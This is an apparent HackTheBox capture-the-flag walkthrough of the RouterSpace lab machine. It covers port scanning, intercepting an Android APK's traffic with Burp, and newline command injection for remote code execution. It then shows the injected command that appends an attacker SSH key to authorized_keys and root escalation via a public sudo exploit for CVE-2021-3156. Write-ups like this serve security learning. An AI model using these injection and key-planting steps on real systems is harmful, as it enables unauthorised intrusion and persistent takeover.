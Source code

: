 # HackTheBox Routerspace Walkthrough

![](images/RouterSpace.png)

This was a fun box to go through, I got to play with apks for the first time.

rustscan -a 10.10.11.148 -- -A -Pn -T4 -sC -sV

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|\_    SSH-2.0-RouterSpace Packet Filtering V1
80/tcp open  http    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-56857
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 67
|     ETag: W/"43-fKluohJjd9lOnn7oe2xkZETZupo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: T 0y bClQs qE }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-10646
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 17 Jun 2022 16:52:03 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-33683
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|\_    Connection: close
|\_http-favicon: Unknown favicon MD5: B4398972638205B6E794C622C536410B
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-title: RouterSpace
|\_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.80%I=7%D=6/17%Time=62ACB133%P=x86\_64-alpine-linux-musl%r
SF:(NULL,29,"SSH-2\\.0-RouterSpace\\x20Packet\\x20Filtering\\x20V1\\r\\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=6/17%Time=62ACB134%P=x86\_64-alpine-linux-musl%r
SF:(GetRequest,312C,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpac
SF:e\\r\\nX-Cdn:\\x20RouterSpace-10646\\r\\nAccept-Ranges:\\x20bytes\\r\\nCache-Co
SF:ntrol:\\x20public,\\x20max-age=0\\r\\nLast-Modified:\\x20Mon,\\x2022\\x20Nov\\x
SF:202021\\x2011:33:57\\x20GMT\\r\\nETag:\\x20W/\\"652c-17d476c9285\\"\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=UTF-8\\r\\nContent-Length:\\x2025900\\r\\nDa
SF:te:\\x20Fri,\\x2017\\x20Jun\\x202022\\x2016:52:03\\x20GMT\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n<!doctype\\x20html>\\n<html\\x20class=\\"no-js\\"\\x20lang=\\"zxx\\
SF:">\\n<head>\\n\\x20\\x20\\x20\\x20<meta\\x20charset=\\"utf-8\\">\\n\\x20\\x20\\x20\\x
SF:20<meta\\x20http-equiv=\\"x-ua-compatible\\"\\x20content=\\"ie=edge\\">\\n\\x20
SF:\\x20\\x20\\x20<title>RouterSpace</title>\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\
SF:"description\\"\\x20content=\\"\\">\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\"viewpo
SF:rt\\"\\x20content=\\"width=device-width,\\x20initial-scale=1\\">\\n\\n\\x20\\x20
SF:\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/bootstrap\\.min\\.css\\"
SF:>\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/owl\\.carou
SF:sel\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\
SF:"css/magnific-popup\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\
SF:"\\x20href=\\"css/font-awesome\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel
SF:=\\"stylesheet\\"\\x20href=\\"css/themify-icons\\.css\\">\\n\\x20")%r(HTTPOptio
SF:ns,108,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn
SF::\\x20RouterSpace-33683\\r\\nAllow:\\x20GET,HEAD,POST\\r\\nContent-Type:\\x20t
SF:ext/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2013\\r\\nETag:\\x20W/\\"d-b
SF:MedpZYGrVt1nR4x\\+qdNZ2GqyRo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\x202022\\x20
SF:16:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nGET,HEAD,POST")%r(RTSPRe
SF:quest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\
SF:n\\r\\n")%r(X11Probe,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection
SF::\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,129,"HTTP/1\\.1\\x20200\\x20OK\\r\\
SF:nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn:\\x20RouterSpace-56857\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2067\\r\\nETag:
SF:\\x20W/\\"43-fKluohJjd9lOnn7oe2xkZETZupo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\
SF:x202022\\x2016:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nSuspicious\\x2
SF:0activity\\x20detected\\x20!!!\\x20{RequestID:\\x20\\x20T\\x200y\\x20\\x20bClQs
SF:\\x20\\x20\\x20qE\\x20\\x20\\x20}\\n");

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.67 seconds

We've only got 2 ports open.

I tried to ssh to see what I get.

![](images/image-21.png)

As expected, can't login but now I know that I need to find a publickey. Passwords are disabled.

Next lets visit the website.

![](images/image-22-950x1024.png)

Nothing interesting came back from crawling the webpage. The only thing we can do is download an .apk file.

Now you will need to either install android studio or anbox to run the apk.

I chose to install anbox via this tutorial. [https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d](https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d)

Launch anbox and run routerspace.apk.

![](images/image-23.png)

I used wireshark on interface anbox0 to see what the app is trying to do. I figured it was trying to connect to routerspace.htb. So I added the hostname to /etc/hosts.

![](images/image-24.png)

Now that the router is connecting to the server. We can try to intercept the traffic using Burp.

![](images/image-25.png)

First, we need to set a new proxy so burp can listen on.

adb shell settings put global http\_proxy 10.10.14.28:8001

Now we can configure burp.

![](images/image-26-1024x318.png)

![](images/image-27-1024x377.png)

Send to repeater so we can try to remotely execute code on the machine.

![](images/image-28-1024x807.png)

Whatever we type is just being returned. Adding \\n before the command and we have RCE!

![](images/image-29-1024x788.png)

We are unable to get a reverse shell going because iptables seems to be blocking all outgoing traffic. But we know we need to get a ssh key to login. /home/paul/.ssh/ seems to be empty. We'll have to generate a ssh key on our kali machine and to send over the public key. Then we can simply echo the rsa key into .ssh.

Kali Machine:

ssh-keygen

![](images/image-30.png)

Now copy the public rsa key from .ssh and pass the code in Burp repeater.

\\necho '\[public rsa key\]' >> /home/paul/.ssh/authorized\_keys

![](images/image-31-1024x784.png)

Key has been successfully added.

Lets SSH in.

ssh -i path\_to\_id\_rsa paul@10.10.11.148

![](images/image-32.png)

We got in and found the user.txt flag. Lets use linpeas.sh to priv esc.

Since Iptables is blocking us from using wget or curl. We know we can ssh, so we'll use scp to transfer files over using ssh.

scp -i id\_rsa linpeas.sh paul@10.10.11.148:.

Now run linpeas.sh on victim machine.

Next part is easy, we can see sudo is vulnerable.

![](images/image-33-1024x84.png)

A quick google gets us this [https://github.com/](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[mohinparamasivam](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[/Sudo-1.8.31-Root-Exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)

CVE-2021-3156.

scp the folder using -r. Now just make and run the exploit.

make
./exploit

![](images/image-34.png)

That was easy, we've escalated privilege to root!
